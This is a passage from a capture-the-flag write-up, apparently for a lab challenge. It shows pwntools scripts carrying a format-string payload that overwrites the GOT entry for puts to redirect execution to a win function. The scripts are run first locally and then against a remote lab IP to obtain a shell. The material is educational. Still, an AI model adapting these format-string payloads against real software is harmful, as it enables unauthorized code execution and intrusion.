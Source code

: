 To calculate this:
- `0x140` (total characters needed) - `0x111` (characters already printed) = `0x2f` (47 additional characters).


```python
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")
context.binary = binary = ELF("./materials-TryPwnMeOne/NotSpecified/notspecified", checksec=False)

puts_got = binary.got["puts"]

r = process()
payload = b"%12$lln%246c%13$n%27c%14$hhn%47c%15$hhn".ljust(48, b"-")
payload += p64(puts_got)
payload += p64(puts_got)
payload += p64(puts_got+1)
payload += p64(puts_got+2)

r.recvuntil(b"Please provide your username\n")
r.sendline(payload)
r.interactive()
r.close()
```

With this, we successfully overwrite the `GOT` entry for `puts` with the address of the `win` function.

```console
pwndbg> x/gx &'puts@got.plt'
0x404020 <puts@got.plt>:        0x00000000004011f6
```

Now, we can modify our script to exploit the remote target and gain a shell.

```python
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")
context.binary = binary = ELF("./materials-TryPwnMeOne/NotSpecified/notspecified", checksec=False)

puts_got = binary.got["puts"]

r = remote("10.10.74.205", 9009)
payload = b"%12$lln%246c%13$n%27c%14$hhn%47c%15$hhn".ljust(48, b"-")
payload += p64(puts_got)
payload += p64(puts_got)
payload += p64(puts_got+1)
payload += p64(puts_got+2)

r.recvuntil(b"Please provide your username\n")
r.sendline(payload)
r.interactive()
r.close()
```
